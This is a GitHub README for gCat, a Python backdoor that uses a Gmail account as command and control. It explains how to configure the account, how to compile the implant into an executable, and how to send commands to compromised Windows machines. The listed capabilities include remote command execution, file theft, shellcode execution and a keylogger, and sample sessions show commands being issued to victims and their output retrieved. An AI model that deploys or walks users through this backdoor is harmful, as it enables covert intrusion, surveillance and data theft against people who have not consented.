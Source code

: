 <p align="center">
 <img src="https://github.com/s1l3nt78/gcat/blob/master/.idea/gcat.png" alt="" />
</p>

# gCat
A stealthy Python based backdoor that uses Gmail as a command and control server

#  Original Author: <a href="https://github.com/byt3bl33d3r"><strong>byt3bl33d3r</strong></a>

    Redeveloping a new Version
    *s1l3nt78
    
 -----------------------------------------------------------------------------------------------------
 
## Setup 

For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account
- You may also have to enable IMAP in the account settings

This repo contains two files:
- ```gcat.py``` a script that's used to enumerate and issue commands to available clients
- ```implant.py``` the actual backdoor to deploy

In both files, edit the ```gmail_user``` and ```gmail_pwd``` variables with the username and password of the account you previously setup.

You're probably going to want to compile ```implant.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)

**Note: It's recommended you compile implant.py using a 32bit Python installation**

--------------------------------------------------------------------------------------------------------

# Usage

```
                                             dP   
                                             88   
                .d8888b. .d8888b. .d8888b. d8888P 
                88'  `88 88'  `"" 88'  `88   88   
                88.  .88 88.  ... 88.  .88   88   
                `8888P88 `88888P' `88888P8   dP   
                     .88                          
                 d8888P  
                     

                   .__....._             _.....__,
                     .": o :':         ;': o :".
                     `. `-' .'.       .'. `-' .'   
                       `---'             `---'  

             _...----...      ...   ...      ...----..._
          .-'__..-''----    `.  `"`  .'    ----'''-..__`-.
         '.-'   _.--'''       `-._.-'       ''''--._   `-.`
         '  .-"'                  :                  `"-.  `
           '   `.              _.'"'._              .'   `
                 `.       ,.-'"       "'-.,       .'
                   `.                           .'
              jgs    `-._                   _.-'
                         `"'--...___...--'"`

                     ...IM IN YURR COMPUTERZ...

                        WATCHIN YURR SCREENZ

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD              Execute a system command
  -download PATH        Download a file from a clients system
  -upload SRC DST       Upload a file to the clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger

Meow!

```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
#~ python gcat.py -list
f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86
```
The output is a UUID string that uniquely identifies the system and the OS the implant is running on


- Let's issue a command to an implant:
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
[*] Command sent successfully with jobid: SH3C4gv
```
Here we are telling ```90b2cd83-cb36-52de-84ee-99db6ff41a11``` to execute ```ipconfig /all```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv     
DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
JOBID: SH3C4gv
FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
CMD: 'ipconfig /all'


Windows IP Configuration

        Host Name . . . . . . . . . . . . : unknown-2d44b52
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

-- SNIP --
```

- That's the gist of it! But you can do much more as you can see from the usage of the script! ;)

-----------------------------------------------------------------------------------------------

# To Do

- Multi-platform support
- ~~Command to upload files~~
- Transport crypto & obfuscation
